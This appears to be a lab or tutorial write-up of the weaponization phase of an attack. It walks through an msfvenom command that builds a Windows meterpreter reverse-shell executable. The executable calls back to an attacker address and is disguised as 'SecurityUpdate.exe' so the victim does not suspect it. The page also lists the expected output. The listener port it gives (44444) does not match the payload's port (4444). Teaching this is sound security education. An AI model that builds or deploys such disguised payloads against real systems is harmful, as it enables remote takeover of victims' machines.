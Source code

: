 # Phase 2: Weaponization

## 🌟 Objective:
Create a malicious payload that will allow the attacker to gain control of the victim's machine.

### Steps:
#### Choosing the Exploit Delivery Mechanism:
- The attacker decides to use Metasploit’s MSF Venom to create a reverse TCP payload.
- The payload will execute a reverse shell, allowing the attacker to remotely control the victim’s system.

#### Generating the Payload:
- The payload is created using MSF Venom and is compiled into a PP32 executable.
- The payload file is named `SecurityUpdate.exe` to avoid suspicion.

![image](https://github.com/user-attachments/assets/a7b94074-04e0-431c-b011-2252d538c3de)

### 🔹 Payload Generation Command:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.19.19.134 LPORT=4444 -f exe -o SecurityUpdate.exe
```

### 🔹 Explanation of the Command:
| Parameter | Explanation |
|-----------|-------------|
| `msfvenom` | A tool to generate payloads for penetration testing. |
| `-p windows/x64/meterpreter/reverse_tcp` | Creates a **64-bit reverse shell** for Windows. |
| `LHOST=10.19.19.134` | The attacker's IP address. |
| `LPORT=4444` | The attacker's listening port. |
| `-f exe` | Specifies the output format as a Windows **executable** (`.exe`). |
| `-o SecurityUpdate.exe` | Saves the generated payload as `SecurityUpdate.exe`. |

### 🔹 Checking the Payload Type:
Run the `file` command:
```bash
file SecurityUpdate.exe
```
#### Expected Output:
```
SecurityUpdate.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```
- ✅ **64-bit Windows Executable**
- ✅ **Designed for Graphical UI**
- ✅ **Portable Executable (PE) format**

#### Configuring the Attacker's Machine:
- The attacker's system is set up to listen for incoming connections on port **44444**.
- This will allow the attacker to establish a reverse connection once the victim runs the payload.
  
